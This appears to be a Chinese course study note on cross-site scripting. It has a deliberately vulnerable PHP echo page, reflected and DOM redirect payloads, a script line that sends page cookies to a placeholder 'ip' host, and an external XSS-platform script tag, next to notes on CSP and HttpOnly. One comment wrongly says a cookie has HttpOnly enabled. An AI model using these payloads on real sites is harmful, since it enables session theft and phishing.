




---
categories:
  - 网络安全
date: 2026-01-20
description: 小迪secWeb攻防学习笔记文件
slug: 6
tags:
  - 
title: Web攻防-52-55天-XSS跨站
cover:
  image: 1.png
  relative: true
---

# XSS跨站-输入输出-原理&分类&闭合

漏洞原理：接受输入数据，输出显示数据后解析执行

xss.php:
```php
<?php
//反射型（非持续型）

$code=$_GET['x'];

echo $code;


//模拟成接受图片显示图片

//echo "";  

//https://www.freebuf.com/articles/web/340080.html

//存储型见gbook.php

?>
```
传参`?x=<script>alert('xss')</script>`就会触发js语句：


如果是嵌套了别的域名：`http://127.0.0.1/xss-demo/xss.php?x=<iframe src="https://www.baidu.com">test</iframe>`就会让浏览器不经意间执行访问这个域名：


> [!NOTE]
> 钓鱼思路：同样在受害者xxx.com中，嵌套后（调整方框），受害者会在xxx2.com网站中输入，就可以得到信息。可得：非持续型是需要对方主动的。
> 

基础类型：反射（非持续），存储（持续），DOM-BASE

1、反射（非持续型）参考上方xss.php

2、存储（持续性）：持续即：注入后访问这个链接会一直存在：



DOM-BASE
```html
<html>

<head>

    <title>dom-xss-test</title>

    <script src="https://code.jquery.com/jquery-1.6.1.min.js"></script>

    <script>

        var hash = location.hash;

        if(hash){

            var url = hash.substring(1);

            location.href = url;

        }

    </script>

</head>

<body>

dom xss test.

</body>

</html>
```
构造payload：`http://127.0.0.1/xss-demo/domxss.html#http://www.baidu.com`就会转跳百度。

拓展类型：jquery, mxss, uxss, pdfxss, flashxss, 上传xss等

常用标签：参考：https://www.freebuf.com/articles/web/340080.html

攻击利用：盲打，cookie盗取，凭据窃取，页面劫持，网络钓鱼，权限维持等

安全修复：字符过滤，实例化编码，http_only，CSP防护，WAF拦截等

# XSS跨站-分类测试-反射&存储&DOM

-数据交互的地方
- get、post、headers
- 反馈与浏览
- 富文本编辑器

特殊钓鱼工具：beef。

# XSS防御机制
**CSP（内容安全策略）**：一种可信白名单，来限制网站中是否可以包含某来源的内容。具体如代码所展示：

```php
<meta charset="utf-8">

<?php

  

//只允许加载本地源图片：

//header("Content-Security-Policy:img-src 'self' ");

  

setcookie('name', 'xiaodi');

setcookie('pass', '123456');

  

?>

  
  
  

//加载的是一张我随意百度的图片

  


<script>var url='http://ip/get.php?u='+window.location.href+'&c='+document.cookie;document.write("");</script>
```

**HttpOnly**：禁止页面的JavaScript访问带有HttpOnly属性的cookie。

实验代码：
```php
<?php

// 设置HttpOnly Cookie

//name 启用httponly true

setcookie('name', 'xiaodi', time() + 3600, '/xss', '', false, false);

//pass 没启用httponly false

setcookie('pass', '123456', time() + 3600, '/xss', '', false, false);

  

// 没有设置HttpOnly

// setcookie('name', 'xiaodi');

// setcookie('pass', '123456');

  

// 从Cookie中获取值

$cookieValue = $_COOKIE['name'];

  

// 在HTML中输出Cookie值

?>

<!DOCTYPE html>

<html>

<head>

    <title>使用HttpOnly保护Cookie并赋值的页面</title>

</head>

<body>

    <h1>使用HttpOnly保护Cookie并赋值的页面</h1>

    <p>Cookie值: <?php echo $cookieValue; ?></p>

    <script src=http://xsscom.com//YKa98y></script>

</body>

</html>
```

如果httponly处是空的，则没有启用：


**黑盒分析**：

1、页面中显示的数据找可控的（有些隐藏的）

2、利用可控地方发送 JS 代码去看执行加载情况

3、成功执行即XSS，不能成功就看语句输出的地方显示（过滤）

4、根据现实分析为什么不能执行（实体化，符号括起来，关键字被删除等）

工具：XSStrike https://github.com/s0md3v/XSStrike